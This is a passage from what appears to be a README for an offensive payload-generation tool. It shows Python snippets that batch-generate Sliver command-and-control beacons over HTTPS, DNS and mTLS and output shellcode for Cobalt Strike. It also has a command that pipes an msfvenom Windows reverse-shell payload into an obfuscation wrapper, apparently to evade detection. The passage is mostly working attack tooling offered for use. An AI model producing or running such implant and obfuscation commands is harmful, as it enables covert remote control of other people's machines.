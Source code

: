 
## Advanced Usage

### Custom Technique Development

See **[CONTRIBUTING.md](CONTRIBUTING.md)** for creating custom techniques.

### Batch Generation

```python
# Generate multiple variants
configs = [
    {'protocol': 'https', 'port': 443},
    {'protocol': 'dns', 'domain': 'example.com'},
    {'protocol': 'mtls', 'port': 8888}
]

for config in configs:
    beacon = generate_sliver_beacon(**config)
    print(f"Generated: {beacon.beacon_path}")
```

### Integration with Other Tools

```python
# Generate shellcode for Cobalt Strike
beacon = generate_sliver_beacon(..., output_format='shellcode')

# Use with Metasploit
msfvenom -p windows/x64/shell_reverse_tcp -f raw | \
    python noctis_wrapper.py --obfuscate
```

---

**Last Updated**: October 3, 2025  
**Version**: 1.0.0

